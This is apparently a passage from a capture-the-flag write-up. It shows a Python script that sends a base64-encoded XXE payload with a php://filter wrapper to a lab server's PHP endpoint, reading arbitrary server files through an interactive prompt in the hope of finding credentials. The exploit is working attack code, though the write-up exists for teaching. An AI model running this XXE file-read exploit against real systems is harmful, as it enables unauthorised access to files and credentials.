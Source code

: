 ![](Attachments/Pasted%20image%2020220620142001.png)

## User
Now that we can include files, we can poke around on the server files to check if we can get any credential to gain access to this server.  
Let's start by building the below exploit, to make it easier to retreive files:  
```python
import requests
import base64
import urllib.parse
import cmd

def getFile(fname):
    payload=f"""<?xml  version="1.0" encoding="ISO-8859-1"?>
    <!DOCTYPE root [<!ENTITY test SYSTEM "php://filter/convert.base64-encode/resource={fname}"> ]>
    		<bugreport>
    		<title>title</title>
    		<cwe>2501</cwe>
    		<cvss>10</cvss>
    		<reward>&test;</reward>
    		</bugreport>""".encode()
    payload_b64 = base64.b64encode(payload).decode()
    data = { "data": payload_b64 }
    r = requests.post('http://10.10.11.100/tracker_diRbPr00f314.php', data=data)
    output = (r.text).split('>')[23][:-4]
    return base64.b64decode(output).decode()

class XxeLeak(cmd.Cmd):
    prompt = "xxe > "
    def default(self,args):
        print(getFile(args))

XxeLeak().cmdloop()

```
As we can see, to include all files (even php files) we can use php filter function to include the file and echo it back as a base64 encoded string.  
We used the same file exfiltration tecnique also for [FriendZone](FriendZone.md) and [Tabby](Tabby.md).